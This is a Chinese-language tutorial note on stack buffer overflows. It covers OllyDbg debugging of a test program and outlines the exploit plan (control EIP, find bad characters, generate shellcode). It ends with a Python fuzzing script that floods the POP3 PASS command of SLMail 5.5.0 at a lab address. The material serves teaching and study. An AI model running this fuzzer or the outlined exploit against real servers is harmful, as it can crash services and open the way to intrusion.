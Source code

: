 使用工具：ollydbg(需以管理员权限运行)

esp(栈顶指针),ebp(栈底指针),eip(cpu)
将vuln.c编译成vuln.exe,使用 ollydbg 打开,设置参数为80个A(80字节),找到主函数开始地址,F2添加断点,F9运行程序,会自动到主函数所在位置停止。F7进入主函数。
在复制参数的位置设置断点,使程序运行到该位置停止。F7进行单步调试,观察右下方的内存堆栈变化。F8直接完成复制操作。可以观察到目前的函数返回地址已被A填充,CPU执行到此处时,便会出错。


## 如何发现该漏洞

源码审计
逆向分析
fuzz(对每个输入点输入超多字节)


## 利用思路

fuzz找到溢出点和溢出字节数
控制eip,重定向执行
查找bad char
生成shell code


## olldbg

F2：设置断点
F8：单步步过,每按一次这个键执行一条反汇编窗口中的一条指令,遇到 CALL 等子程序不进入其代码
F7：单步步入,功能同单步步过(F8)类似,区别是遇到 CALL 等子程序时会进入其中,进入后首先会停留在子程序的第一条指令上
F4：运行到选定位置,作用就是直接运行到光标所在位置处暂停
CTR+F9：执行到返回,此命令在执行到一个 ret (返回指令)指令时暂停,常用于从系统领空返回到我们调试的程序领空
ALT+F9：执行到用户代码,可用于从系统领空快速返回到我们调试的程序领空


## 漏洞实例

### windows(32bit)

以SLMail为例(版本5.5.0)

```pop3-pass-fuzz.py
#!/usr/bin/python
# -*- encoding: utf-8 -*-
import socket

#创建一个缓冲区数组,同时递增它们

buffer=["A"]
counter=100
while len(buffer) <= 30:
    buffer.append("A"*counter)
    counter=counter+200

for string in buffer:
    print "Fuzzing PASS with %s bytes"%len(string)
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    connect=s.connect(('192.168.30.35',110))
    s.recv(1024)
    s.send('USER test\r\n')
    s.recv(1024)
    s.send('PASS ' + string + '\r\n')
    s.send('QUIT\r\n')
    s.close()
```
